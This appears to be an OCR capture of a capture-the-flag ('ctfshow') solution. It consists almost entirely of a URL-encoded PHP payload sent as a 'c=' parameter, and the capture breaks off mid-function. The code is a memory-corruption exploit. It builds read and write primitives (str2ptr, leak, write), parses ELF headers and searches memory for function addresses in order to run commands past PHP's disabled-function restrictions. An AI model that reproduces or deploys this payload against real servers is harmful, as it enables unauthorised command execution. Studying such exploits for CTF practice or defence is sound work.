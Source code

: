 ```
c=function%20ctfshow(%24cmd)%20%7b%20%20%20%20%20global%20%24abc%2c%20%24helper%2c%20%24backtrace%3b%20%20%20%20%20%20class%20vuln%20%7b%20%20%20%20%20%20%20%20%20public%20%24a%3b%20%20%20%20%20%20%20%20%20public%20function%20__destruct()%20%7b%20%20%20%20%20%20%20%20%20%20%20%20%20%20global%20%24backtrace%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%20unset(%24this-%3ea)%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%24backtrace%20%3d%20(new%20exception)-%3egettrace()%3b%20%20%20%20%20%20%20%20%20%20%20%20%20if(!isset(%24backtrace%5b1%5d%5b'args'%5d))%20%7b%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24backtrace%20%3d%20debug_backtrace()%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%7d%20%20%20%20%20%20%20%20%20%7d%20%20%20%20%20%7d%20%20%20%20%20%20class%20helper%20%7b%20%20%20%20%20%20%20%20%20public%20%24a%2c%20%24b%2c%20%24c%2c%20%24d%3b%20%20%20%20%20%7d%20%20%20%20%20%20function%20str2ptr(%26%24str%2c%20%24p%20%3d%200%2c%20%24s%20%3d%208)%20%7b%20%20%20%20%20%20%20%20%20%24address%20%3d%200%3b%20%20%20%20%20%20%20%20%20for(%24j%20%3d%20%24s-1%3b%20%24j%20%3e%3d%200%3b%20%24j--)%20%7b%20%20%20%20%20%20%20%20%20%20%20%20%20%24address%20%3c%3c%3d%208%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%24address%20%7c%3d%20ord(%24str%5b%24p%2b%24j%5d)%3b%20%20%20%20%20%20%20%20%20%7d%20%20%20%20%20%20%20%20%20return%20%24address%3b%20%20%20%20%20%7d%20%20%20%20%20%20function%20ptr2str(%24ptr%2c%20%24m%20%3d%208)%20%7b%20%20%20%20%20%20%20%20%20%24out%20%3d%20%22%22%3b%20%20%20%20%20%20%20%20%20for%20(%24i%3d0%3b%20%24i%20%3c%20%24m%3b%20%24i%2b%2b)%20%7b%20%20%20%20%20%20%20%20%20%20%20%20%20%24out%20.%3d%20sprintf(%22%25c%22%2c(%24ptr%20%26%200xff))%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%24ptr%20%3e%3e%3d%208%3b%20%20%20%20%20%20%20%20%20%7d%20%20%20%20%20%20%20%20%20return%20%24out%3b%20%20%20%20%20%7d%20%20%20%20%20%20function%20write(%26%24str%2c%20%24p%2c%20%24v%2c%20%24n%20%3d%208)%20%7b%20%20%20%20%20%20%20%20%20%24i%20%3d%200%3b%20%20%20%20%20%20%20%20%20for(%24i%20%3d%200%3b%20%24i%20%3c%20%24n%3b%20%24i%2b%2b)%20%7b%20%20%20%20%20%20%20%20%20%20%20%20%20%24str%5b%24p%20%2b%20%24i%5d%20%3d%20sprintf(%22%25c%22%2c(%24v%20%26%200xff))%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%24v%20%3e%3e%3d%208%3b%20%20%20%20%20%20%20%20%20%7d%20%20%20%20%20%7d%20%20%20%20%20%20function%20leak(%24addr%2c%20%24p%20%3d%200%2c%20%24s%20%3d%208)%20%7b%20%20%20%20%20%20%20%20%20global%20%24abc%2c%20%24helper%3b%20%20%20%20%20%20%20%20%20write(%24abc%2c%200x68%2c%20%24addr%20%2b%20%24p%20-%200x10)%3b%20%20%20%20%20%20%20%20%20%24leak%20%3d%20strlen(%24helper-%3ea)%3b%20%20%20%20%20%20%20%20%20if(%24s%20!%3d%208)%20%7b%20%24leak%20%25%3d%202%20%3c%3c%20(%24s%20*%208)%20-%201%3b%20%7d%20%20%20%20%20%20%20%20%20return%20%24leak%3b%20%20%20%20%20%7d%20%20%20%20%20%20function%20parse_elf(%24base)%20%7b%20%20%20%20%20%20%20%20%20%24e_type%20%3d%20leak(%24base%2c%200x10%2c%202)%3b%20%20%20%20%20%20%20%20%20%20%24e_phoff%20%3d%20leak(%24base%2c%200x20)%3b%20%20%20%20%20%20%20%20%20%24e_phentsize%20%3d%20leak(%24base%2c%200x36%2c%202)%3b%20%20%20%20%20%20%20%20%20%24e_phnum%20%3d%20leak(%24base%2c%200x38%2c%202)%3b%20%20%20%20%20%20%20%20%20%20for(%24i%20%3d%200%3b%20%24i%20%3c%20%24e_phnum%3b%20%24i%2b%2b)%20%7b%20%20%20%20%20%20%20%20%20%20%20%20%20%24header%20%3d%20%24base%20%2b%20%24e_phoff%20%2b%20%24i%20*%20%24e_phentsize%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%24p_type%20%20%3d%20leak(%24header%2c%200%2c%204)%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%24p_flags%20%3d%20leak(%24header%2c%204%2c%204)%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%24p_vaddr%20%3d%20leak(%24header%2c%200x10)%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%24p_memsz%20%3d%20leak(%24header%2c%200x28)%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%20if(%24p_type%20%3d%3d%201%20%26%26%20%24p_flags%20%3d%3d%206)%20%7b%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24data_addr%20%3d%20%24e_type%20%3d%3d%202%20%3f%20%24p_vaddr%20%3a%20%24base%20%2b%20%24p_vaddr%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24data_size%20%3d%20%24p_memsz%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%7d%20else%20if(%24p_type%20%3d%3d%201%20%26%26%20%24p_flags%20%3d%3d%205)%20%7b%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24text_size%20%3d%20%24p_memsz%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%7d%20%20%20%20%20%20%20%20%20%7d%20%20%20%20%20%20%20%20%20%20if(!%24data_addr%20%7c%7c%20!%24text_size%20%7c%7c%20!%24data_size)%20%20%20%20%20%20%20%20%20%20%20%20%20return%20false%3b%20%20%20%20%20%20%20%20%20%20return%20%5b%24data_addr%2c%20%24text_size%2c%20%24data_size%5d%3b%20%20%20%20%20%7d%20%20%20%20%20%20function%20get_basic_funcs(%24base%2c%20%24elf)%20%7b%20%20%20%20%20%20%20%20%20list(%24data_addr%2c%20%24text_size%2c%20%24data_size)%20%3d%20%24elf%3b%20%20%20%20%20%20%20%20%20for(%24i%20%3d%200%3b%20%24i%20%3c%20%24data_size%20%2f%208%3b%20%24i%2b%2b)%20%7b%20%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3d%20leak(%24data_addr%2c%20%24i%20*%208)%3b%20%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20-%20%24base%20%3e%200%20%26%26%20%24leak%20-%20%24base%20%3c%20%24data_addr%20-%20%24base)%20%7b%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24deref%20%3d%20leak(%24leak)%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20if(%24deref%20!%3d%200x746e6174736e6f63)%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20continue%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%7d%20else%20continue%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3d%20leak(%24data_addr%2c%20(%24i%20%2b%204)%20*%208)%3b%20%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20-%20%24base%20%3e%200%20%26%26%20%24leak%20-%20%24base%20%3c%20%24data_addr%20-%20%24base)%20%7b%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24deref%20%3d%20leak(%24leak)%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2
```